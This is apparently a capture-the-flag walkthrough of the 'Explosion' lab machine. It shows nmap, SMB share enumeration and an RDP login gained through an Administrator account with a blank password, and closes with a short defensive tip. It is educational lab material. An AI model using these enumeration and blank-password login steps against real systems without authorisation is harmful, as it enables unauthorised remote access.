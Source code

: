 # Explosion

---

## Setup

Connected to the VPN, spawned in the target machine, as a first step to make sure the target machine is alive I use a quit `ping` command in the terminal to make sure all is set and store the IP in an environment variable:

```shell
└─$ export IP=10.129.1.13
└─$ echo $IP
10.129.1.13

└─$ ping $IP
PING 10.129.1.13 (10.129.1.13) 56(84) bytes of data.
64 bytes from 10.129.1.13: icmp_seq=1 ttl=127 time=68.4 ms
64 bytes from 10.129.1.13: icmp_seq=2 ttl=127 time=68.6 ms
64 bytes from 10.129.1.13: icmp_seq=3 ttl=127 time=68.8 ms
64 bytes from 10.129.1.13: icmp_seq=4 ttl=127 time=68.6 ms
````

All is set!

---

## Enumeration

First, I run a scan on the target machine to identify open ports and running services that might be vulnerable using [nmap](https://nmap.org) with the following flags:
`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

```shell
└─$ nmap -sV -sC -v -oN scan.nmap $IP

...

Nmap scan report for 10.129.1.13
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Here we see the target machine is running a Microsoft Windows OS with RDP server on prt 3389, also later in the scan it shows the computer name is :`Explosion` and the DNS domain name is also `Explosion`, so I edited my `/etc/hosts` file and added this entry `10.129.1.13	explosion.htb`.

The target machine also seemingly runs Samba services which might be worth looking at early on for simple intel that could lead me somewhere

---

## Samba

I started with enumerating Samba shares anonymously with a blank password, see if anything interesting there but all I found was some default shares that are secured with administrator access, so I moved on to explore the RDP server.

```shell
└─$ smbclient -L $IP     
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

---

## RDP

I started by trying to connect to the RDP server with the username I already know previously from the nmap scan `Explosion`, but a password was necessary so I couldn't get connection.

```shell
└─$ xfreerdp /v:$IP /u:Explosion    
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[22:27:40:190] [20135:20136] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core] - transport_ssl_cb:freerdp_set_last_error_ex ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[22:27:42:866] [20135:20136] [ERROR][com.freerdp.core.transport] - BIO_read returned an error: error:14094438:SSL routines:ssl3_read_bytes:tlsv1 alert internal error
```

I then started manually brute forcing common usernames to see if any of them is misconfigured and maybe I can login with a blank password, I used `Impacket: rdp_check.py` script and started testing usernames: `root`, `admin`, `Explosion`, `Administrator` and at last, the username `Administrator` with a blank password clicked!

```shell
└─$ python /opt/impacket/build/scripts-3.10/rdp_check.py Explosion/Administrator:@$IP
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

Password:
[*] Access Granted
```

To connect to the RDP server I used `xfreerdp`:

```shell
└─$ xfreerdp /v:$IP /u:Administrator
````

and I'm in! I got an instance of the target machine running in a GUI window with `flag.txt` file on the Desktop:

![RDP Connection](https://imgur.com/gX10TLo.png)

---

## Blue Team Suggestions

- Administrator accounts must have a secure password! at least a password.